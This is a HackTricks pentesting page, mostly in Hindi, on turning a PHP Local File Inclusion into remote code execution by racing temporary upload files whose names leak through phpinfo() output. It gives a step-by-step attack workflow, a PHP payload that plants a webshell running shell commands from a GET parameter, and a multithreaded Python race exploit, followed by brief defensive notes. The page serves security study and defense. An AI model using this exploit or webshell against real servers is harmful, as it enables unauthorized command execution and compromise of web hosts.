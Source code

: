 # LFI to RCE via PHPInfo

{{#include ../../banners/hacktricks-training.md}}

To exploit this technique you need all of the following:
- एक पहुँच योग्य पृष्ठ जो phpinfo() आउटपुट प्रदर्शित करे।
- एक Local File Inclusion (LFI) primitive जिससे आप नियंत्रित कर सकें (उदा., include/require on user input)।
- PHP file uploads सक्षम हों (file_uploads = On)। कोई भी PHP script RFC1867 multipart uploads स्वीकार करेगा और प्रत्येक uploaded part के लिए एक temporary file बनाएगा।
- PHP worker को configured upload_tmp_dir (या default system temp directory) में लिखने में सक्षम होना चाहिए और आपका LFI उस path को include कर सके।

Classic write-up and original PoC:
- Whitepaper: LFI with PHPInfo() Assistance (B. Moore, 2011)
- Original PoC script name: phpinfolfi.py (see whitepaper and mirrors)

Tutorial HTB: https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

Notes about the original PoC
- phpinfo() आउटपुट HTML-encoded होता है, इसलिए "=>" अक्सर "=&gt;" के रूप में दिखाई देता है। यदि आप legacy scripts पुन: उपयोग करते हैं, तो सुनिश्चित करें कि वे _FILES[tmp_name] value को parse करते समय दोनों encodings की खोज करें।
- आपको payload (आपका PHP code), REQ1 (phpinfo() endpoint के लिए request जिसमें padding शामिल है), और LFIREQ (आपके LFI sink के लिए request) को अनुकूलित करना होगा। कुछ targets को null-byte (%00) terminator की आवश्यकता नहीं होती और आधुनिक PHP versions इसे मान्य नहीं करेंगे। LFIREQ को vulnerable sink के अनुसार समायोजित करें।

Example sed (only if you really use the old Python2 PoC) to match HTML-encoded arrow:
```
sed -i 's/\[tmp_name\] =>/\[tmp_name\] =&gt;/g' phpinfolfi.py
```
{{#file}}
LFI-With-PHPInfo-Assistance.pdf
{{#endfile}}

## सिद्धांत

- जब PHP को multipart/form-data POST में कोई file field मिलता है, तो यह कंटेंट को एक temporary file में लिखता है (upload_tmp_dir या OS default) और उसका path $_FILES['<field>']['tmp_name'] में प्रकट करता है। फाइल request के अंत में अपने आप हटा दी जाती है जब तक कि उसे स्थानांतरित/पुनःनामित न किया गया हो।
- चाल यह है कि temporary नाम ज्ञात करें और PHP उसे साफ करने से पहले अपने LFI के जरिए उसे include करें। phpinfo() $_FILES को प्रिंट करता है, जिसमें tmp_name भी शामिल है।
- request headers/parameters (padding) बढ़ाकर आप phpinfo() आउटपुट के शुरुआती chunks को request खत्म होने से पहले client पर flush करा सकते हैं, ताकि आप तब tmp_name पढ़ सकें जब temp file अभी मौजूद हो और फिर तुरंत उसी path के साथ LFI को हिट कर सकें।

Windows में temp फाइलें आमतौर पर C:\\Windows\\Temp\\php*.tmp जैसी जगहों पर होती हैं। Linux/Unix में वे सामान्यतः /tmp में या upload_tmp_dir में configured डायरेक्टरी में होती हैं।

## हमला कार्यप्रवाह (कदम-दर-कदम)

1) एक छोटा सा PHP payload तैयार करें जो तेज़ी से एक shell को persist कर दे ताकि race हारने से बचा जा सके (फाइल लिखना आमतौर पर एक reverse shell की तुलना में तेज़ होता है):
```
<?php file_put_contents('/tmp/.p.php', '<?php system($_GET["x"]); ?>');
```
2) phpinfo() पेज पर सीधे एक बड़ा multipart POST भेजें ताकि यह आपके payload वाले एक temp file बना दे. early output को प्रेरित करने के लिए विभिन्न headers/cookies/params में ~5–10KB padding जोड़ें. सुनिश्चित करें कि form field का नाम उसी से मेल खाता हो जिसे आप $_FILES में पार्स करेंगे.

3) जबकि phpinfo() response अभी भी streaming कर रहा होता है, partial body को पार्स करके $_FILES['<field>']['tmp_name'] (HTML-encoded) निकालें. जैसे ही आपके पास पूरा absolute path (उदा., /tmp/php3Fz9aB) आ जाए, अपना LFI फायर कर के उस path को include करवाएँ. अगर include() temp file को उसके delete होने से पहले execute कर दे, तो आपका payload चल जाएगा और /tmp/.p.php बन जाएगा.

4) बने हुए file का उपयोग करें: GET /vuln.php?include=/tmp/.p.php&x=id (या जहाँ भी आपका LFI उसे include करने देता है) ताकि कमांड्स विश्वसनीय रूप से execute हों.

> टिप्स
> - race जीतने की आपकी संभावनाएँ बढ़ाने के लिए एक साथ कई concurrent workers का उपयोग करें.
> - Padding रखने की सामान्य रूप से मदद करने वाली जगहें: URL parameter, Cookie, User-Agent, Accept-Language, Pragma. लक्ष्य के अनुसार इसे tune करें.
> - अगर vulnerable sink कोई extension (उदा., .php) append करता है, तो आपको null byte की जरूरत नहीं है; include() temp file के extension की परवाह किए बिना PHP को execute कर देगा.

## न्यूनतम Python 3 PoC (socket-based)

नीचे दिया गया snippet महत्वपूर्ण हिस्सों पर केंद्रित है और legacy Python2 script की तुलना में इसे adapt करना आसान है. HOST, PHPSCRIPT (phpinfo endpoint), LFIPATH (path to the LFI sink), और PAYLOAD को customize करें.
```python
#!/usr/bin/env python3
import re, html, socket, threading

HOST = 'target.local'
PORT = 80
PHPSCRIPT = '/phpinfo.php'
LFIPATH = '/vuln.php?file=%s'  # sprintf-style where %s will be the tmp path
THREADS = 10

PAYLOAD = (
"<?php file_put_contents('/tmp/.p.php', '<?php system($_GET[\\"x\\"]); ?>'); ?>\r\n"
)
BOUND = '---------------------------7dbff1ded0714'
PADDING = 'A' * 6000
REQ1_DATA = (f"{BOUND}\r\n"
f"Content-Disposition: form-data; name=\"f\"; filename=\"a.txt\"\r\n"
f"Content-Type: text/plain\r\n\r\n{PAYLOAD}{BOUND}--\r\n")

REQ1 = (f"POST {PHPSCRIPT}?a={PADDING} HTTP/1.1\r\n"
f"Host: {HOST}\r\nCookie: sid={PADDING}; o={PADDING}\r\n"
f"User-Agent: {PADDING}\r\nAccept-Language: {PADDING}\r\nPragma: {PADDING}\r\n"
f"Content-Type: multipart/form-data; boundary={BOUND}\r\n"
f"Content-Length: {len(REQ1_DATA)}\r\n\r\n{REQ1_DATA}")

LFI = ("GET " + LFIPATH + " HTTP/1.1\r\nHost: %s\r\nConnection: close\r\n\r\n")

pat = re.compile(r"\\[tmp_name\\]\\s*=&gt;\\s*([^\\s<]+)")


def race_once():
s1 = socket.socket()
s2 = socket.socket()
s1.connect((HOST, PORT))
s2.connect((HOST, PORT))
s1.sendall(REQ1.encode())
buf = b''
tmp = None
while True:
chunk = s1.recv(4096)
if not chunk:
break
buf += chunk
m = pat.search(html.unescape(buf.decode(errors='ignore')))
if m:
tmp = m.group(1)
break
ok = False
if tmp:
req = (LFI % tmp).encode() % HOST.encode()
s2.sendall(req)
r = s2.recv(4096)
ok = b'.p.php' in r or b'HTTP/1.1 200' in r
s1.close(); s2.close()
return ok

if __name__ == '__main__':
hit = False
def worker():
nonlocal_hit = False
while not hit and not nonlocal_hit:
nonlocal_hit = race_once()
if nonlocal_hit:
print('[+] Won the race, payload dropped as /tmp/.p.php')
exit(0)
ts = [threading.Thread(target=worker) for _ in range(THREADS)]
[t.start() for t in ts]
[t.join() for t in ts]
```
## Troubleshooting
- You never see tmp_name: सुनिश्चित करें कि आप वास्तव में phpinfo() को multipart/form-data के साथ POST कर रहे हैं। phpinfo() केवल तब $_FILES प्रिंट करता है जब कोई upload फ़ील्ड मौजूद था।
- Output doesn’t flush early: padding बढ़ाएँ, अधिक बड़े headers जोड़ें, या कई concurrent requests भेजें। कुछ SAPIs/buffers बड़े thresholds तक flush नहीं करेंगे; तदनुसार समायोजित करें।
- LFI path blocked by open_basedir or chroot: आपको LFI को किसी allowed path की तरफ निर्देशित करना होगा या दूसरे LFI2RCE vector पर स्विच करना होगा।
- Temp directory not /tmp: phpinfo() पूरा absolute tmp_name path प्रिंट करता है; LFI में उसी exact path का उपयोग करें।

## रक्षात्मक नोट्स
- Never expose phpinfo() in production. यदि आवश्यक हो, तो IP/auth के द्वारा सीमित करें और उपयोग के बाद हटा दें।
- यदि आवश्यक न हो तो file_uploads को disabled रखें। अन्यथा, upload_tmp_dir को उस path तक सीमित रखें जो application में include() द्वारा पहुंच योग्य न हो और किसी भी include/require paths पर कड़ा validation लागू करें।
- किसी भी LFI को क्रिटिकल मानें; phpinfo() न होने पर भी अन्य LFI→RCE paths मौजूद हैं।

## संबंधित HackTricks techniques

{{#ref}}
lfi2rce-via-temp-file-uploads.md
{{#endref}}

{{#ref}}
via-php_session_upload_progress.md
{{#endref}}

{{#ref}}
lfi2rce-via-nginx-temp-files.md
{{#endref}}

{{#ref}}
lfi2rce-via-eternal-waiting.md
{{#endref}}



## संदर्भ
- LFI With PHPInfo() Assistance whitepaper (2011) – Packet Storm mirror: https://packetstormsecurity.com/files/download/104825/LFI_With_PHPInfo_Assitance.pdf
- PHP Manual – POST method uploads: https://www.php.net/manual/en/features.file-upload.post-method.php
{{#include ../../banners/hacktricks-training.md}}
